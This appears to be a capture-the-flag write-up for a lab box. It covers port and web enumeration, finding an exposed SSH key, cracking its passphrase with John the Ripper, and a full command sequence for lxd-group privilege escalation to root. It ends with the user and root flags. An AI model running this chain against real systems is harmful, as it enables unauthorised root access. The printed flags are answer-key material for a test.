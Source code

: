 <pre>
Machine IP: 10.10.105.32

Enum:
    Open ports:
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak


Enum port 80: gobuster
    /uploads (Status: 301)
        dict.lst    -> dict for cracking maybe secretKey
manifesto.txt     
    meme.jpg
/secret (Status: 301)
    secretKey => Found a ssh key
        Copy ssh key in your attacking machine


Crack secretKey:
    $ python ssh2john.py id_rsa > id_hash
    $ john --wordlist=/root/Documents/wordlists/rockyou.txt id_hash
    =>Creds:    letmein          (id_rsa)

Login via ssh:
    $ ssh -i id_rsa john@10.10.105.32
        $pwd letmein
And got user flag.

Priv Esc enum: linpeas.sh
    uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

    27(sudo) => vuln to priv esc
    108(lxd) => vuln to priv esc

Let exploit it:

Attacker box:
    $ git clone https://github.com/saghul/lxd-alpine-builder
    $ cd ***
    $ ./build-alpine -a i686

    $ ls
Alpine-v3.12-i686-20201118_0812.tar.gz

Download the file in ctf box with python http.server

CTF box:
    $ lxc image import ./alpine-v3.12-i686-20201118_0812.tar.gz --alias myimage
    $ lxc init myimage mycontainer -c security.privileged=true
    $ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
    $ lxc start mycontainer
    $ lxc exec mycontainer /bin/sh

    ~ # id
uid=0(root) gid=0(root)
    
    ~ # cat /mnt/root/root/root.txt
        2e337b8c9f3aff0c2b3e8d4e6a7c88fc


User Flag: a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
Root Flag: 2e337b8c9f3aff0c2b3e8d4e6a7c88fc
</pre>
